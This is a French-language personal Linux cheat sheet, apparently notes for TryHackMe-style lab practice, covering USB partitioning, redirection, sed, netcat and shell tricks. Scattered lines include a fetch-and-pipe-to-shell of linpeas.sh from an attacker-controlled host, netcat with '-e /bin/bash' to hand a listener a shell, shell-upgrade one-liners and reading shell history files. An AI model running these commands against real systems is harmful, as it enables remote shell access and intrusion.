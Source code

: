 N'oublie pas la commande man  

python -m http.server 8000 : Lancer un serveur python local

Pour récupérer le fichier : `curl [vpnhostIP]/linpeas.sh| sh` pour l'executer directement

wget : récupérer des fichiers via internet.

Formater cle usb :  
df : lister toute les partitions.  
sudo umount /dev/sd.....  
sudo mkfs.nfts /dev/sd.....

Quand ya un souci de capacité sur une clé usb :

**Étape 1. Supprimer toutes les partitions**

- Ouvrez un terminal et tapez **sudo su** .
- Tapez **fdisk -l** et notez la lettre de votre clé USB.
- Tapez **fdisk /dev/sdx** (en remplaçant x par votre lettre de lecteur).
- Tapez **d** pour procéder à la suppression d'une partition.
- Tapez **1** pour sélectionner la 1ère partition et appuyez sur Entrée.
- Tapez **d** pour procéder à la suppression d'une autre partition (fdisk devrait automatiquement sélectionner la deuxième partition).

**Étape 2. Créer une nouvelle partition**

- Tapez **n** pour créer une nouvelle partition.
- Tapez **p** pour rendre cette partition primaire et appuyez sur Entrée.
- Tapez **1** pour en faire la première partition, puis appuyez sur Entrée.
- Appuyez sur Entrée pour accepter le premier cylindre par défaut.
- Appuyez à nouveau sur Entrée pour accepter le dernier cylindre par défaut.
- Tapez **w** pour écrire les nouvelles informations de partition sur le disque USB.
- Tapez **mkfs.vfat -F 32 /dev/sdx1** (en remplaçant x par la lettre de votre clé USB).

adduser : créer un user

pour démarrer le vpn de thm, faire, dans download, sudo openvpn garhiak.ovpn &. Le & c'est pour le lancer en arrière plan. Puis faire entrer

Pour associer une adresse ip à un mot pour plus de rapidité, sudo nano /etc/host puis tu fais comme pour les autres, tu suis cette syntaxe :

[111.111.111.111](http://111.111.111.111 "http://111.111.111.111")            target

/dev/null : "trou noir" du terminal. en gros c'est pour supprimer des trucs.

Tu peux supp le résultat d'une commande (ne pas l'afficher): commande > /dev/null.

Tu peux aussi ne pas mettre d'entrée. par ex si j'ai un script qui affiche mon input, je fais ./[programme.sh](http://programme.sh "http://programme.sh") < /dev/null

Ou encore supprimer les erreurs : commande 2> /dev/null  
rappel :

En langage Unix, il existe trois flux standard :

- 0 : L'entrée standard (stdin) où les commandes lisent les données.
- 1 : La sortie standard (stdout) où les commandes affichent les résultats.
- 2 : Le flux d'erreur standard (stderr) où les commandes affichent les messages d'erreur.

cat ~/.*history | less : voir l'historique des commandes tapées

python -c 'import pty;pty.spawn("/bin/bash")' : Trois commandes (pas liées) à faire si tu est dans un shell réduit.

echo os.system('/bin/bash')  
/bin/sh -i

whoami : affiche l'utilisateur courant

|||
|---|---|
|Symbol / Operator|Description|
|&|Cet opérateur vous permet d'exécuter des commandes en arrière-plan de votre terminal.( à mettre après la commande)|
|&&|Cet opérateur vous permet de combiner plusieurs commandes dans une seule ligne de votre terminal.|
|>|Cet opérateur est un redirecteur - ce qui signifie que nous pouvons prendre la sortie d'une commande (comme l'utilisation de cat pour sortir un fichier) et la diriger ailleurs.|
|>>|Cet opérateur a la même fonction que l'opérateur >, mais il ajoute la sortie au lieu de la remplacer (ce qui signifie que rien n'est écrasé)..|

**Sed :** Editeur de données dans fichier (utile pour faire des trucs automatisés)

1. **Remplacement de texte :**

- Syntaxe de base : `sed 's/ancien_mot/nouveau_mot/' fichier`
- Exemple : `sed 's/apple/orange/' fichier.txt` remplace la première occurrence de "apple" par "orange" dans le fichier `fichier.txt`.

1. **Remplacement de toutes les occurrences :**

- Ajouter le modificateur `g` pour remplacer toutes les occurrences : `sed 's/ancien_mot/nouveau_mot/g' fichier`

1. **Utilisation de délimiteurs différents :**

- Vous pouvez utiliser des délimiteurs autres que `/` pour éviter d'avoir à échapper les caractères spéciaux. Par exemple : `sed 's|ancien_mot|nouveau_mot|' fichier`

1. **Suppression de lignes :**

- Pour supprimer une ligne qui contient un certain motif, utilisez : `sed '/motif/d' fichier`

1. **Impression de lignes spécifiques :**

- Utilisez `sed -n` pour supprimer l'impression par défaut, puis ajoutez une règle pour imprimer des lignes spécifiques. Par exemple : `sed -n '10,20p' fichier` imprime les lignes de 10 à 20.

1. **Ajout de texte à la fin d'une ligne :**

- `sed 's/$/ texte_a_ajouter/' fichier` ajoute "texte_a_ajouter" à la fin de chaque ligne.

1. **Utilisation de scripts avec **`**sed**`** :**

- Vous pouvez également utiliser des scripts `sed` contenus dans des fichiers externes. Par exemple : `sed -f script.sed fichier`

1. **Modification en place du fichier :**

- Ajouter l'option `-i` pour modifier le fichier en place. Par exemple : `sed -i 's/ancien_mot/nouveau_mot/' fichier`

1. **Utilisation de expressions régulières :**

- `sed` supporte les expressions régulières étendues (ERE). Par exemple : `sed -E 's/[0-9]+/NUM/g' fichier` remplace tous les nombres par "NUM

**Netcat :** établir connexion dans shell entre machine.

```
-c shell commands       as `-e'; use /bin/sh to exec [dangerous!!]
        -e filename             program to exec after connect [dangerous!!]
        -b                      allow broadcasts
        -g gateway              source-routing hop point[s], up to 8
        -G num                  source-routing pointer: 4, 8, 12, ...
        -h                      this cruft
        -i secs                 delay interval for lines sent, ports scanned
        -k                      set keepalive option on socket
        -l                      listen mode, for inbound connects
        -n                      numeric-only IP addresses, no DNS
        -o file                 hex dump of traffic
        -p port                 local port number
        -r                      randomize local and remote ports
        -q secs                 quit after EOF on stdin and delay of secs
        -s addr                 local source address
        -T tos                  set Type Of Service
        -t                      answer TELNET negotiation
        -u                      UDP mode
        -v                      verbose [use twice to be more verbose]
        -w secs                 timeout for connects and final net reads
        -C                      Send CRLF as line-ending
        -z                      zero-I/O mode [used for scanning]
```

Attendre une connexion :

- nc -lvp portnumber

Se connecter :

- nc address portnumber

Executer un fichier quand on se connecte :

- nc address portnumber -e filename (on peut mettre /bin/bash pour que le listener puisse executer un shell sur ta session)

Charger un fichier text vers un fichier text distant :

- Dans la sessions listener : nc -lvp portnumber > filetarget.txt
- Dans la session connector : nc address portnumber < contentfile.txt
- Le contenu du contentfile.txt ira dans filetarget.txt

**Opérations mathématiques dans un shell**
- `printf "%x\n" $((0x7fffffffda70 - 0x24))`
- `printf "%d\n" 0x1f  `
- `printf "%020x" 123` Converti la valeur 123 en hex sur 20 bit
- `printf "%d\n" 0xFF

Programmer une tâche ponctuelle
`at now + 20 minutes
`> firefox` lance firefox dans 20 minutes


**Inodes** ^9a4a17
